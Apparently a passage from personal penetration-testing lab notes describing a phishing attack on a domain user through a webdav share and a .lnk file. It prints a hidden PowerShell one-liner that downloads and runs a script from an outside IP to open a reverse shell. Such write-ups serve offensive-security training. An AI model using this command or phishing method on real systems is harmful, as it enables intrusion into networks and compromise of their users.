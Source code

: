 - `netexec` will identify that `john` is a domain user and have access to the server.![[Pasted image 20240212122004.png]]
	- There is no interesting shares available and no local administration access.
	- However, it offers us a choice for phishing since `SMTP` requires authentication and `john` is the only one we have plaintext password for.
- Set's up `webdav` and `.lnk` payload.![[Pasted image 20240212145214.png]]
```powershell
powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.198:1234/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.198 -Port 443
```
- Send phishing email and wait for the bite. One can see that, after successful phishing attack, it lands us within the internal network of `beyond.com`![[Pasted image 20240212150135.png]]